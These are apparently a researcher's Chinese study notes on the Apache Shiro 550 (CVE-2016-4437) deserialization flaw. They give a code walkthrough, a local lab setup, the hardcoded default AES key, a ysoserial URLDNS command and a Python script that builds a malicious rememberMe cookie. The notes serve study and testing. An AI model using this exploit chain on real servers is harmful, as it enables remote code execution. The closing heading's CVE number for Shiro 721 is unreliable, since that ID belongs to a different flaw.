










# Shiro

## 0x01 ~ Shiro的简单介绍

- shiro 是 apache 提供的一个开源 java 安全框架

- shiro 能够实现身份验证、授权、加密和会话管理等功能



> Primary Concerns:
>
> - Anthentication: 身份认证，验证用户是否有相应的身份-登录认证
> - Authorization: 权限验证，验证某个已认证的用户是否拥有某个权限
> - Session Management: 会话管理，管理用户登录后的会话
> - Cryptography: 加密，使用密码学加密数据。如，加密密码。

> Supporting Features:
>
> - Web Support: Web支持，能够比较轻易地整合到Web环境中
>
> - Caching: 缓存，对用户的数据进行缓存
> - Concurrency: 并发，支持具有并发功能的多线程应用程序
> - Testing: 测试，提供测试的支持
> - Run As: 允许用户以其他用户的身份来登录/访问
> - Remember Me**（漏洞点之一）**: 让用户在关闭浏览器或会话过期后，下次访问系统时仍然保持登录状态，无需重新输入用户名和密码。


## 0x02 ~ Shiro 550（CVE-2016-4437）

### 漏洞简介

Shiro 550，即**CVE-2016-4437**，是Apache Shiro框架中一个因**硬编码AES密钥**和**反序列化无校验**导致的高危远程代码执行漏洞。


### 漏洞原理

550的漏洞源于 **Remember Me** 特性（可见0x01中的Remember Me功能的介绍）的实现方式：

> 1、服务端加密：用户登录后，**Shiro** 会将用户身份信息序列化，使用 **AES 加密**后再进行 **Base64 编码**，最后存入名为 `rememberMe` 的 Cookie 中返回给浏览器。
>
> 2、客户端请求：下次访问时，浏览器携带该 Cookie，服务端会进行 **Base64 解码 → AES 解密 → Java 反序列化**，以恢复用户身份。


### 影响版本

**shiro-550** 漏洞影响 **Apache Shiro <= 1.2.4** 的所有版本。

> 在 Shiro 1.2.4 及之前的版本中，用于 AES 加密的密钥是硬编码在源码中的（默认为 `kPH+bIxk5D2deZiIxcaaaA==`）。


### 环境搭建

用到了这个blog中提到的 `shirodemo`项目环境

https://www.v0n.top/2022/03/09/Shiro%E5%AE%89%E5%85%A8%E5%AD%A6%E4%B9%A0/

`shirodemo`github地址为https://github.com/phith0n/JavaThings/tree/master/shirodemo

然后我们下载 `Tomcat` 和 `Maven`，`Tomcat` 用来本地部署 `shirodemo` 项目，`Maven` 用来打包 `shirodemo` 成`war` 包，然后部署在 `Tomcat` 上。

在`shirodemo`目录下用 `Maven` 打包

```powershell
PS D:\vscode_workspace\JavaThings-master\shirodemo> mvn clean package
```



然后，再将 `target` 下打包好的 `war` 包和其他文件一并放在 `Tomcat\webapps` 目录下，接着在 `Tomcat\bin` 目录下点击运行 `startup.bat` or `Tomcat8.exe` ，浏览器访问 `http://localhost:8080/shirodemo/`即可。


### 过程分析

从`AbstractRememberMeManager.java`入手，找到



这段代码的作用就是判断是否进行了 `AES` 加密，如果存在则先进行 `AES` 解密，解密就用到了硬编码的密钥，然后再对字节数组进行反序列化；如果不存在 `AES` 加密，那么直接进行反序列化。

然后跟进到`DefaultSerializer.java` 中的 `deserialize`  



`readObject()` 进行执行了代码

```markdown
- 为什么readObject()可以执行代码？
	- Java 原生序列化机制有个特点：在反序列化时，会自动调用对象的一些特殊方法。
	- 攻击者可以找到一些类，它们的这些方法会执行某些操作。如果这些操作能被串联起来（gadget chain），最终就能执行任意命令。
```


既然找到了执行的位置，那么所用到的 `bytes` 来自哪里呢？

来看 `AbstractRememberMeManager.java` ，找到



可以看到，通过 `getRememveredSerializedIdentity` 赋值给字节数组 `bytes`

跟进到 `CookieRememberMeManager.java`， 找到如下图的位置，看一下 `getRememveredSerializedIdentity` 做了什么事情



主要是获得 `Cookie`， 然后对其进行一个 `base64` 的解码，然后返回字节数组。也就是上面我们说到的 `AbstractRememberMeManager.java`，返回的值赋给了 `bytes`。

这里进行一个 `base64` 解码，主要是因为 `CookieRememberMeManager.java` 中，对 `Cookie` 的设置进行了 `base64` 编码，如下图所示




### 漏洞复现

先在[DNSLog Platform](http://www.dnslog.cn/)获得`your-dnslog-domain`，然后测试是否命令可以成功执行。

使用 `ysoserial` 去生成序列化的字节流

```powershell
PS D:\shiro_payload> java -jar .\ysoserial-all.jar URLDNS http://5507z0.dnslog.cn >urldns.ser
```

JDK18 生成序列化字节流命令为

```powershell
cmd /c "java --add-opens=java.base/java.net=ALL-UNNAMED --add-opens=java.base/java.util=ALL-UNNAMED -jar .\ysoserial-all.jar URLDNS http://5507z0.dnslog.cn > urldns.ser"
```

再将生成的 `urldns.ser`，进行 `AES` 加密和 `Base64` 编码 

```python
import base64
import os
from Crypto.Cipher import AES
from Crypto.Util.Padding import pad

def shiro_encrypt(serialized_bytes, key_b64="kPH+bIxk5D2deZiIxcaaaA=="):
    key = base64.b64decode(key_b64)
    iv = os.urandom(16)
    cipher = AES.new(key, AES.MODE_CBC, iv)
    ciphertext = cipher.encrypt(pad(serialized_bytes, AES.block_size))
    combined = iv + ciphertext
    return base64.b64encode(combined).decode()

with open("urldns.ser", "rb") as f:
    payload = f.read()

cookie_value = shiro_encrypt(payload)
print("rememberMe=" + cookie_value)
```

使用 `Burp` 进行抓包



然后将编码得到的 `payload` 填入 `Cookie` 中，send



返回 `DNSLog` 发现成功回显




## 0x03 ~ Shiro 721（CVE-2020-1957）

